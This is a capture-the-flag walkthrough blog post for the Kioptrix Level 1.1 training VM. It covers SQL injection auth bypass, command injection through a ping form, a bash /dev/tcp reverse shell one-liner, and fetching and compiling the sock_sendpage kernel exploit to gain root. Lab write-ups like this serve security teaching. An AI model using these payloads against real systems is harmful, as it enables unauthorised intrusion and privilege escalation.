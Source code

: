 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 1.1 Walkthrough"
date:   2023-12-20 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix Level 1.1 Walkthrough, CTF solution for Kioptrix Level 1.1'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 3.9p1 (protocol 1.99)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>RPC Bind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.0.52 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 631</code></p></pc>
           </td>
           <td>
              <pc><p>CUPS</p></pc>
           </td>
           <td>
               <pc><p>CUPS 1.1</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 946</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>RPC</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 3306</code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL (unauthorized)</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>


## Web Application Investigation

The web form <code>/index.php</code> was vulnerable to [SQL injection](/penetration-testing/web-app/sql-injection/), entering the username <code>admin</code> and the password <code>' or '1'=' </code> successfully bypassed auth.  


![SQL Injection Auth Bypass](/img/blog/kioptrix/sql-injection-1-1.png)


<div class="note info">
  <h5>SQL Injection - Why does ' or '1'='1 work ?</h5>
  <p>

  The web application is expecting the SQL query:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password='blah'";</code>

  Entering the above <b>injects</b> the statement after the <code>password='blah'</code> and before the closing <code>";</code>, the entire sql injection query looks like:

  <code>$query = "SELECT * FROM users WHERE username = 'admin' AND password=' or '1'='1";"</code>

  <code>1 = 1</code> will always be <code>1</code>, thus the statement will return true, allowing an attacker to authenticate as admin. The above injection statement correctly closes the sql syntax, however it is possible to comment out the rest of the sql statement using: <code> -- -</code>

  </p>
</div>

![Command Injection](/img/blog/kioptrix/command-injection.png)

The above authentication bypass exposed a web form vulnerable to <b>command injection</b>, the form filtering only checks for the presence of the ping command with no filtering to prevent an attacker tacking a comment on the end using <code>; insert-command-here</code>.

## Non privileged shell

A non privileged reverse shell was obtained using:

{% highlight bash %}

ping google.com; bash -i >& /dev/tcp/192.168.221.139/443 0>&1

{% endhighlight %}

{% highlight bash %}
[root:~]# nc -n -v -l -p 443
listening on [any] 443 ...
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.157] 32770
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-3.00$
{% endhighlight %}

## Local privilege Escalation


{% highlight bash %}
bash-3.00$ uname -ar
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9545 --no-check-certificate
--02:27:58--  https://www.exploit-db.com/download/9545
           => `9545'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.mycloudproxy.com' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]

    0K .........                                                30.10 MB/s

02:27:58 (30.10 MB/s) - `9545' saved [9785]

bash-3.00$ mv 9545 sock_sendpage.c                             
bash-3.00$ gcc -o sock_sendpage sock_sendpage.c
bash-3.00$ ./sock_sendpage
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00#
{% endhighlight %}

Thanks for the VM :)
